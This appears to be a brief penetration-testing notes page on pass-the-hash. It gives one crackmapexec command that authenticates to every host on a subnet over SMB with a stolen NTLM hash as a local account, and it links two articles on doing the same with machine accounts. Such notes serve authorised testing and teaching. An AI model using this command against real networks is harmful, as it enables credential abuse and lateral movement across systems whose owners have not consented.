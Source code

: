 # Pass-The-Hash

## with local Accounts

```
crackmapexec smb 192.168.183.0/24 -u "Frank Castle" -H <hash> --local-auth
```

## Pass the Hash with Machine$ Accounts

{% embed url="https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/pass-the-hash-with-machine-accounts" %}

{% embed url="https://pentestlab.blog/2022/02/01/machine-accounts/" %}
